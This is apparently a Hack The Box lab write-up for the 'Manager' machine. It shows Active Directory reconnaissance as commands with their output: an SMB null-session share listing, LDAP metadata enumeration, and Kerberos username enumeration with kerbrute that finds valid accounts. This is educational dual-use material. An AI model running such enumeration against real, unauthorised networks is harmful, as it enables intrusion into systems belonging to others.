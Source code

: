 To sum it up, there are an Active Directory environment, an SQL server, an SMB service and a web server.  
The domain name for the Active Directory is `manager.htb`, and the machine is `dc01.manager.htb` which we can add to our `/etc/hosts`.

First of all, we check the website. It appears to be a static website without functioning functionalities.  
The directory bruteforcing does not gives more informations.

Then we check the SMB service to see what information we can gather. Seems like we can authenticate with a null session.

```sh
smbclient -L \\\\10.10.11.236\\ -N
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
IPC$ IPC Remote IPC
NETLOGON Disk Logon server share
SYSVOL Disk Logon server share
```
Now, let's enumerate our Active Directory.
We'll use [go-windapsearch](https://github.com/ropnop/go-windapsearch) and [kerbrute](https://github.com/ropnop/kerbrute). This will help us enumerate users on the AD.

```sh
┌──(kali㉿kali)-[~/htb]
└─$ ./windapsearch-linux-amd64 -d 10.10.11.236 --module metadata
dnsHostName: dc01.manager.htb
domainControllerFunctionality: 7
forestFunctionality: 7
domainFunctionality: 7
defaultNamingContext: DC=manager,DC=htb
```
Users don't have preauth activated, so we can use `Kerbrute` to enumerate our users.  
How Kerbrute works for `userenum`:
> To enumerate usernames, Kerbrute sends TGT requests with no pre-authentication. If the KDC responds with a PRINCIPAL UNKNOWN error, the username does not exist. However, if the KDC prompts for pre-authentication, we know the username exists and we move on. This does not cause any login failures so it will not lock out any accounts. This generates a Windows event ID 4768 if Kerberos logging is enabled.

```sh
┌──(kali㉿kali)-[~/htb]
└─$ ./kerbrute_linux_amd64 userenum -d manager.htb --dc 10.10.11.236 /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt -o kerb_user.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 10/24/23 - Ronnie Flathers @ropnop

2023/10/24 14:13:59 >  Using KDC(s):
2023/10/24 14:13:59 >  	10.10.11.236:88

2023/10/24 14:14:00 >  [+] VALID USERNAME:	 ryan@manager.htb
2023/10/24 14:14:06 >  [+] VALID USERNAME:	 guest@manager.htb
2023/10/24 14:14:07 >  [+] VALID USERNAME:	 cheng@manager.htb
2023/10/24 14:14:07 >  [+] VALID USERNAME:	 raven@manager.htb
2023/10/24 14:14:12 >  [+] VALID USERNAME:	 administrator@manager.htb
2023/10/24 14:14:33 >  [+] VALID USERNAME:	 Ryan@manager.htb
2023/10/24 14:14:34 >  [+] VALID USERNAME:	 Raven@manager.htb
2023/10/24 14:14:36 >  [+] VALID USERNAME:	 operator@manager.htb
```